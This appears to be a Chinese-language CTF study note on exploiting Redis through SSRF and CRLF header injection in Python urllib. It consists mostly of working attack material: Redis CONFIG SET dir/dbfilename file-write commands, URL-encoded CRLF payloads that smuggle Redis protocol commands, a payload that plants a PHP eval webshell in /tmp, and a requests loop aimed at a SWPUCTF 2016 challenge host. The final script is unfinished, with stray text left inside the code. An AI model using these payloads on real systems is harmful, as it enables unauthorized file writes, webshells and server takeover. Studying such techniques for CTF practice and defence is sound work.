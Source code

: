 # Redis 

http://redisdoc.com/string/set.html 

上面的链接时redis的指令参考集，实际使用的同时并不会全部用上，只会使用到部分。

## python urllib SSRF

### 如何攻击Redis

两种方案，具体看参考链接。原理都是一样的，写文件到目标目录。

```
CONFIG SET dir /tmp
CONFIG SET dbfilename evil  //这一步可以将db设置为/tmp/evil,可以控制文件里面的部分数据了。
SET foo bar
SAVE
```

上述Redis命令可以使`key-value`数据保存在`/tmp/evil`文件中，也就是我们可以控制里面的部分内容： [![img](https://i.imgur.com/rq0THqE.png)](https://i.imgur.com/rq0THqE.png)

### 0x02 Python urllib HTTP头注入(crlf+ssrf)

简单使用一下代码测试访问url：

```
import urllib
import sys

urllib.urlopen(sys.argv[1])
```

这里是个SSRF漏洞，当输入一下payload，还能注入我们想要的http头数据： 输入：

```
python urlopen.py http://127.0.0.1%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345/foo
```

监听本机12345端口，得到发包数据：

```
GET /foo HTTP/1.0
Host: 127.0.0.1
X-injected: header  //头数据注入
x-leftover: :12345
User-Agent: Python-urllib/1.17
```

不仅如此，还可以改变请求构造为POST数据。具体参考链接1。和Gopher协议有同样的妙用。

### 0x03 结合攻击Redis

发送payload到内网Redis端口：

```
http://192.168.0.7%0d%0aSET%20A%20EVIL%0d%0a:6379/foo
```

可以在Redis中添加`A:EVIL`的键值对,即：执行了`SET A EVIL`命令。数据包为：

```

GET /foo HTTP/1.0
Host: 192.168.0.7
SET A EVIL
:12345
User-Agent: Python-urllib/1.17
```

[![img](Redis.assets/1NiCcyb.png)](https://i.imgur.com/1NiCcyb.png)

### 0x04 实际shell攻击

#### 1. 写入空格限制

Redis协议突破空格限制：

```
*3
$3
SET
$1
A
$9
test you
```

url编码得到payload：

```
http://192.168.0.7%0D%0A%2a3%0D%0A%243%0D%0ASET%0D%0A%241%0D%0AA%0D%0A%248%0D%0Atest%20you%0D%0A:6379/foo
```

测试结果如下，成功执行命令：

```
127.0.0.1:6379> get A
"EVIL"
127.0.0.1:6379> get A
"test you"
```

#### 2. 综合利用写文件

测试payload直接写文件： redis原命令：

```
SET foo \n<?php @eval($_POST[c][/c]);?>\n
CONFIG SET dir /tmp
CONFIG SET dbfilename webshell
SAVE
```

即：

```

*3
$3
SET
$5
shell
$27
\n<?php @eval($_POST[c][/c]);?>\n
CONFIG SET dir /tmp
CONFIG SET dbfilename webshell123
SAVE
```

按照上述编码规则可得payload：

```
python urlopen.py http://192.168.0.7%0D%0A%2a3%0D%0A%243%0D%0ASET%0D%0A%245%0D%0Ashell%0D%0A%2427%0D%0A%0A%3C%3Fphp%20%40eval%28%24_POST%5Bc%5D%29%3B%3F%3E%0A%0D%0ACONFIG%20SET%20dir%20%2ftmp%0D%0ACONFIG%20SET%20dbfilename%20webshell123%0D%0ASAVE%0D%0A:6379/foo
```

成功写入shell到/tmp/webshell123文件中，文件内容如下： [![img](Redis.assets/csPfIyx.png)](https://i.imgur.com/csPfIyx.png) 定时任务反弹shell和添加ssh-key方法，详见链接2。

### 样例：[SWPUCTF 2016]Web7

```
http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0a:6379/foo
数据库保存位置修改
```



```
import requests

url = "http://6fe99eb6-b7ba-4e34-b5b4-6ce622aca224.node4.buuoj.cn/input"
data = {"url":"http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0a:6379/foo",
        "submit":"submit"}
data1 = {

}
while (1) :
    r = requests.post(url=url, data=data)
    print (r.text)
密码修改
```